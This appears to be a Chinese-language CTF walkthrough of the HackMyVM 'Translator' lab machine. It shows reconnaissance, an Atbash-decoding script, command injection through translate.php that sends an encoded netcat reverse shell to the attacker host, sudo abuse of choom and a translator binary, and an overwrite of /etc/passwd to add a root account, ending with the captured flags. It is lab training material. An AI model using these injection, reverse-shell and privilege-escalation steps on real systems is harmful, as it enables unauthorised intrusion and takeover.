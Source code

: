 [HackMyVm - Translator - YouTube](https://www.youtube.com/watch?v=xs6Pw9y_Ayg)
# 主机发现
```C
netdiscover -i eth0 -r 192.168.44.193/24
```
# 服务探测
```C
nmap -sV -A -T4 -p- 192.168.44.134
```
得到只开放了80和22端口

# 目录爆破

```css
gobuster dir -u http://192.168.44.134/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php
```

只是个输入框，尝试输入，发现我们输入的字符被替换了然后显示
尝试发现是26个字母倒叙替换
也可以通过https://www.dcode.fr/cipher-identifier 发现是使用atbash编码
但我直接写了个脚本
```Python
import sys

def reverse_alphabet_substitution(text):
    # 定义倒序字母映射字典
    reversed_alphabet = {
        'A': 'Z', 'B': 'Y', 'C': 'X', 'D': 'W', 'E': 'V',
        'F': 'U', 'G': 'T', 'H': 'S', 'I': 'R', 'J': 'Q',
        'K': 'P', 'L': 'O', 'M': 'N', 'N': 'M', 'O': 'L',
        'P': 'K', 'Q': 'J', 'R': 'I', 'S': 'H', 'T': 'G',
        'U': 'F', 'V': 'E', 'W': 'D', 'X': 'C', 'Y': 'B',
        'Z': 'A',
    }

    # 使用映射字典替换文本中的字母
    result = ''.join(reversed_alphabet.get(c.upper(), c) for c in text)

    return result.lower()

args = sys.argv

print(args[1])
# 示例文本
input_text = args[1]

# 应用替换函数
output_text = reverse_alphabet_substitution(input_text)

print(output_text)

```

# 反弹SHELL
sh -i >& /dev/tcp/ 192.168.44.128 / 9001 0>&1不行
```C
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python translater.py nc+-e+/bin/bash+192.168.44.128+9001
nc+-e+/bin/bash+192.168.44.128+9001
mx -v /yrm/yzhs 192.168.44.128 9001
```
访问`http://192.168.44.134/translate.php?hmv=rw;mx -v /yrm/yzhs 192.168.44.128 9001

刚监听的shell不太好用，使用下面这条命令打开一个pty伪终端
```C
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm //设置终端类型为常见的xterm环境变量
stty -a//以容易阅读的方式打印当前的所有配置
stty raw -echo;fg//- 通过 `stty raw -echo` 将当前终端设置为原始模式并关闭回显。接着，使用分号 `;` 立即执行下一条命令。最后，`fg` 命令将最近放入后台的作业切换到前台运行，此时由于终端已处于原始模式且回显关闭，该作业可以直接接收用户的无干扰、未经处理的键盘输入。
reset //重新初始化终端
```
# 提权
**配置 sudo [命令](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.linuxcool.com%2F)在运行时而不输入密码。** |此设置在 /etc/sudoers文件中完成，这是使用 sudo [命令](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.linuxcool.com%2F)的默认安全策略；在用户权限指定部分

尝试读取第一个flag读取不到cat /home/ocean/user.txt

```C
cat hvxivg

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python translater.py Mb+kzhhdliw+rh+zbfie3w4          
Mb+kzhhdliw+rh+zbfie3w4
ny password is ayurv3d4
```
利用sudo 提权到india 账号
https://gtfobins.github.io/gtfobins/choom/
```C
su ocean //输入密码：ayurv3d4
sudo -l
//发现有个(india) NOPASSWD: /usr/bin/choom   这可以让我免密提权至india用户权限
```

也可以直接ssh：`ssh ocean@192.168.44.134

**choom**      命令是 util-linux 软件包的一部分
不会用这个命令就去找man：[choom(1) - Linux manual page](https://man7.org/linux/man-pages/man1/choom.1.html)
[Ubuntu Manpage: choom - display and adjust OOM-killer score.](https://manpages.ubuntu.com/manpages/focal/en/man1/choom.1.html)

```C
sudo -u india /usr/bin/choom -n 0 /bin/sh
script /dev/null -c bash
```

```C
sudo -l //(root) NOPASSWD: /usr/local/bin/trans
sudo -u root /usr/local/bin/trans//尝试以root权限运行该翻译软件
man /usr/local/bin/trans   //不会就问man,查看帮助命令
```

cat /etc/passwd发现可以显示，添加root用户
```C
cat /etc/passwd
cp /etc/passwd /tmp/passwd.bak
cp /etc/passwd /tmp/file
在kali中生成一个密码
mkpasswd -m sha-512
复制值到file的最后一行中,并按照格式修改成root用户hack:$6$8NJrwgxTZMywbrec$f7JVOZGjIXI0UnN6Ovdv0kzyqiWkhqpIgBOyJOX2AHX4Z4SGuBo8D17cYAolVkVbEtNwQ75ze90uhHbIsA21a0:0:0:root:/root:/bin/bash

sudo -u root /usr/local/bin/trans -i /tmp/file -o /etc/passwd -no-auto
su hack //密码：123
```

```C
root@translator:~# cat root.txt
h87M5364V2343ubvgfy
root@translator:~# cat /home/ocean/user.txt
a6765hftgnhvugy473f
```